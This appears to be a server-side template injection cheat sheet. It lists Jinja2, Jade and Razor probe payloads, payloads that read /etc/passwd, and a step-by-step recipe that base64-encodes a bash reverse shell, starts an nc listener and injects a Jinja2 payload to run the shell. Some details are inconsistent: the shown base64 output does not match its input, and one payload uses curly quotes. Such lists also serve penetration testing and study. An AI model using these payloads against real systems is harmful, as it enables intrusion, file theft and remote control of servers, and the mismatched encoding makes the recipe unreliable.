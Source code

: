 ### `Flask/Jinja2: Identify`
```python
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
### `Flask/Jinja2` 
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ get_flashed_messages.__globals__.__builtins__.open(“/etc/passwd”).read() }}
```
### `Jade`
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
### `Razor (.Net)`
```
@(1+2)
@{// C# code}
```
### SSTI to reverse shell
#### [1] Try this, everywhere the app is taking input from the user and reflecting the output.

```python
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
{{config}}
```
#### [2] if the app reflects the output as `49`.Then there might be a RCE possible.
#### [3] now encode the payload in basse64.

`input`
```shell
echo 'bash -i >& /dev/tcp/LHOST/4444 0>&1' | base64
```
`output`
```
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTA4LzQ0NDQgMD4mMQo=
```
#### [4] now start a listener
```bash
nc -lvvp 4444
```

#### [5] resend the request with this command
```python
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTA4LzQ0NDQgMD4mMQo=${IFS}|base64${IFS}-d|bash').read()}}
```

